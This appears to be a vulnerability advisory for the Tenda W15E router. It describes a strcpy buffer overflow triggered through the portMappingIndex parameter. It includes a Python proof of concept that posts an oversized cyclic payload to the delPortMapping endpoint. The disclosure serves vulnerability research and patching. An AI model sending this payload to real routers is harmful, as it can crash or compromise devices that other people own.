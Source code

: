 # W15E buff overflow vulnerability
Vendor: Tenda W15E
Version: US_W15EV1.0br_V15.11.0.13(1068_1523_841)_CN_TDC

Description：There is a buff overflow vulnerability in W15E router. The function is 0x0007D064. IndexSet gets the content of portMappingIndex and uses the strcpy without check the length, which result in buffer overflow.

The static analysis is as follows: 

![image](https://github.com/sezangel/IOT-vul/assets/89381625/5ea6e8be-7056-419c-a3b3-6818b9e7ef56)

POC:
```python
import requests
from pwn import *

url='http://192.168.100.2/goform/delPortMapping'
payload=cyclic(500)
header={
'Host': '192.168.100.2',
'User-Agent':'Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0',
'Accept':'*/*',
'Accept-Language':'en-US,en;q=0.5',
'Accept-Encoding':'gzip, deflate',
'Content-Type':'application/x-www-form-urlencoded; charset=UTF-8',
'X-Requested-With':'XMLHttpRequest',
'Origin':'http://192.168.100.2',
'Connection':'close',
'Referer':'http://192.168.100.2/mac_filter.html?random=0.008005922687726486&',
'Cookie':'password=17399d7fb9cf0644a1f50f015116919dcabazx'} 

data1 ='portMappingIndex=%s'%payload
ret = requests.post(url = url ,headers = header,data = data1, verify=False)
```

![4037c1d83179189e70ce67660f70f17](https://github.com/user-attachments/assets/00bdcca0-e3a2-4063-84b8-dc7f8a10d59b)


